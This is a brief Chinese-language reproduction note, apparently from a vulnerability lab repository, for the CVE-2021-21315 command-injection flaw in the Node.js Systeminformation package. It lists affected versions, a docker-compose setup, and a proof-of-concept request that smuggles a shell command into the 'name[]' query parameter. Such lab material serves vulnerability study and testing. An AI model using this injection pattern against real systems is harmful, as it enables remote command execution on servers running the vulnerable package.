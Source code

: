 # Nodejs Systeminformation组件RCE（CVE-2021-21315）

## 影响版本

Systeminformation <   5.3.1

## 环境搭建

```
docker-compose up -d
```

## 复现

```
/api/getServices?name[]=$(touch%20/tmp/success)
```

![1.png](1.png)

![2.png](2.png)
